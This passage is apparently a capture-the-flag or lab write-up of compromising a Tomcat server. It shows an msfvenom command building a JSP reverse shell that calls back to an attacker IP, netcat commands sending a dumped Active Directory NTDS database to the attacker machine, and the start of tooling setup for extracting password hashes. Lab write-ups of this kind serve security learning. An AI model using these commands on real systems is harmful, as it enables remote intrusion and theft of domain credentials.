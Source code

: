 I created a reverse shell selecting a java payload and output the file to rshell.war

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.29 LPORT=4200 -f war > rshell.war
```

I then uploaded rshell.war via the Tomcat Web Application Manager and received shell as user 'tomcat'

![image](https://user-images.githubusercontent.com/10210108/82165161-eea1b680-9881-11ea-91af-608d79ce661d.png)

I found an interesting folder called pentest_data when looking through tomcat's home folder. The folder contained an active directory dump that looked like it was generated by Metasploit's psexec_ntdsgrab module. I transferred them to my machine via netcat.

> Receiver : nc -l -p 1234 > out.file / Sender : nc -w 3 [destination] 1234 < out.file

```
nc -w 3 10.10.14.5 4201 < 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
nc -l -p 4201 > ntds.dit
nc -w 3 10.10.14.5 4201 < 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
nc -l -p 4201 > ntds.bin
```

![image](https://user-images.githubusercontent.com/10210108/82165546-6fad7d80-9883-11ea-875c-9c0f51ed4aa3.png)

Now that I had the files I could work on extracting the hashes. This required a few steps which I referenced from ropnop's blog https://blog.ropnop.com/extracting-hashes-and-domain-info-from-ntds-dit/

First I needed libesedb which is a tool for parsing the ESE (Extensible Storage Engine) database where Active Directory data is stored. I downloaded the latest tarball and extracted it
 ```
wget https://github.com/libyal/libesedb/releases/download/20200418/libesedb-experimental-20200418.tar.gz
tar xf libesedb-experimental-20200418.tar.gz
 ```

I installed the necessary build tools
```
apt install autoconf automake autopoint libtool pkg-config
```

And then ran configure make and install on esedb
```
./configure
 make
 make install
 ldconfig
```

esedbexport was run against ntds.dit which exports the .dit database into parseable tables
```
esedbexport -m tables ntds.dit
```

Next I needed dsusers.py so I installed ntdsextract.
```
git clone https://github.com/csababarta/ntdsxtract.git
cd ntdsxtract/
python setup.py build && python setup.py install
```
